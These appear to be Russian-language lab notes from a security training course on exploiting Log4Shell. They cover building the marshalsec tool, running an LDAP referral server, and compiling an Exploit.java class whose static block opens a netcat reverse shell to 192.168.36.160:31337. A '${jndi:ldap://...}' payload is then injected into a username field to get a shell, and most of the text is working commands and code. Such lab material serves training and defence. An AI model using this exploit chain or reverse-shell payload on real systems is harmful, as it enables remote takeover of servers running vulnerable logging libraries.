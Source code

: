 Требуется подготовить инфраструктуру
устанавливаем java 1.8.0_181 (jdk-8u181-linux-x64.tar.gz) (http://planetone.online/downloads/java/jdk/)

sudo mkdir /usr/lib/jvm
cd /usr/lib/jvm
sudo tar xzvf ~/Downloads/jdk-8u181-linux-x64.tar.gz # При необходимости модифицируем путь
sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1
sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java
sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac 
sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws

устанавливаем sudo apt install maven ( ошибка память - от рута echo >/etc/security/limits.d/systemd.conf "* hard nofile 1048576")

клонируем репозиторий  [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)

собираем mvn clean package -DskipTests

после сборки запускаем ldap сервер java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "[http](https://learn.cyber-ed.ru/mod/glossary/showentry.php?eid=58&displayformat=dictionary "Глоссарий по модулю: HTTP")://<attacker-server-[ip](https://learn.cyber-ed.ru/mod/glossary/showentry.php?eid=61&displayformat=dictionary "Глоссарий по модулю: IP")>:8000/#[Exploit](https://learn.cyber-ed.ru/mod/glossary/showentry.php?eid=45&displayformat=dictionary "Глоссарий по модулю: Exploit")"

создаем новую директорию и создаем файл Exploit.java
```

public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 192.168.36.160 31337");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```
компилируем javac [Exploit](https://learn.cyber-ed.ru/mod/glossary/showentry.php?eid=45&displayformat=dictionary "Глоссарий по модулю: Exploit").java

запускаем http сервер на порту 8000 (указанный при запуске ldap)

отправляем нагрузку в строку имени пользователя ${jndi:ldap://100.100.2.252:1389/Exploit\}
![](../../attachment/Pasted%20image%2020250605110536.png)

![](../../attachment/Pasted%20image%2020250605110550.png)![](../../attachment/Pasted%20image%2020250605110556.png)
Получаем шелл

![](../../attachment/Pasted%20image%2020250605110608.png)